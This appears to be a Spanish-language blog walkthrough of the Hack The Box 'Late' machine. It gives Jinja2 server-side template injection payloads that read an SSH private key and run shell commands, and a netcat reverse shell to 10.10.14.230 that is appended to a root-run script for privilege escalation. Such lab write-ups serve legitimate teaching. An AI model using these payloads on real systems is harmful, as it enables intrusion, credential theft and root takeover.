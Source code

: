 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
Esta maquina es una de las sencillas en HtB. Aunque si batalle mucho a la hora del SSTI, tuve que investigar demasiado a fondo sobre esta vulnerabilidad, pero al final persistiendo en el intento lo logre.

## [](#header-2)<a href="#desarrollo">Desarrollo</a>
Despues del tipico escaneo con nmap, vimos que solamente teniamos abiertos los puertos 22 de ssh y 80 del servicio tcp, que correspondia a una pagina web. 
Navegando dentro del codigo de la pagina, encontramos un enlace a convertir tus propias imagenes con texto a texto e icimos la prueba para conocer mas sobre el motor al que le correspondia al procesador de flsk. Con la siguiente cadena:
```py
{{7*7}}
${7*7}
<%=7*7%> 
${{7*7}} 
#{7*7}
```

Solamente tenemos que anotarlo en un bloc de notas y tomarle una captura de pantalla, para despues subirlo en el images.Late.htb. Lo que nos daba como resultado en un result.txt, era una compilacion de codigo. El cual representaba una vulnerabilidad en SSTI. La cual viene a gran profundidad en <a href="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">mi pagina favorita</a> y resulta que el motor que esta usando flask es jinja2. Batalle mucho a la hora de tomar las capturas de pantalla, recortar la imagen o simplemente encontrar las variables que se encontraban dentro del programa. El blog que estaba siguiendo no explicaba con claridad el comando que utilizo para llegar a los siguientes pasos, pero me tome la tarea de corregir errores agregando guines bajos '_' en las partes que no reconocia el script que subia. Los ejemplos de las imagenes que llegue a usar son:


Para poder ejecutar comandos de cmd:

![Os cmd](/assets/images/late/os_cmd_request.png)

Para solicitar la flag de usuraio:

![User flag](/assets/images/late/flag_request.png)

Respuesta de la captura anterior:

![Flag result](/assets/images/late/flag_txt.png)

Como en otras maquinas, podremos entrar con el usuario a traves del servicio de ssh, solamente tendremos que copiarnos el /home/svc_acc/id_rsa ya que es posible leerlo desde el servicio de jinja.
Podemos usar el script siguiente:
```py
{{ get_flashed_messages.__globals__.__builtins___.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

Aqui presente problemas al generar el archivo `authorized_keys` por que como no se muestra en el resultado la correcta ejecusion del comando, tuve que ejecutarlo varias veces. Recomiendo que en el script que se utilice, contenga algo parecido a:

```py
{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("cp /home/svc_acc/.ssh/id_rsa /home/svc_acc/.ssh/authorized_keys").read() }}

{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("chmod 666 /home/svc_acc/.ssh/authorized_keys").read() }}

{{ get_flashed_messages.__globals__.__builtins___.__import__("os")["popen"]("ls").read() }}
```

Con esto, no podremos ejecutar `ls -l` para ver que los permisos se hayan aplicado, pero al menos podremos ver que el archivo ha sido copiado.

Una vez teniendo la shell, y ejecutar el LinePeas, nos fuimos por lo mas sencillo para escalar privilegios que era en el archivo /usr/local/sbin/ssh-alert.sh que probablemente esta corriendo en todo momento, se puede utilizar pspy para echar un vistaso para ver que esta ocurriendo. La herramienta actualizada se encuentra en <a href="https://github.com/DominicBreuker/pspy">GIT</a> y observaremos con esta herramienta que el servicio lo esta utilizando el usuario con el UID=0, el cual es el perteneciente a root. Asi que procederemos a editar el archivo e inyectarle un script sencillo.

Para inyectar el codigo, primero hay que crear el archivo /tmp/append.txt, el cual dentro tendra:

```s
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.230 4444 >/tmp/f
```

y a continuacion solamente tendremos que ejecutar el comando:

```s
cat /tmp/append.txt >> /usr/local/sbin/ssh-alert.sh
```

Hacemos un append de lo anterior en el archivo ssh-alert.sh, preparamos el reverse shell para capturarlo desde nuestra kali como normalmente lo hacemos con el nc -nlvp 4444, y finalmente obtenemos otra shell con un nuevo usuario que esta vez sera root. Para que se ejecute, bastara con cerrar la sesion con ssh que teniamos e inmediatamente iniciara la coneccion con netcat desde nuestra kali.

![User flag](/assets/images/late/root_access.png)

![Late powned](/assets/images/late/Late_pwnd.png)
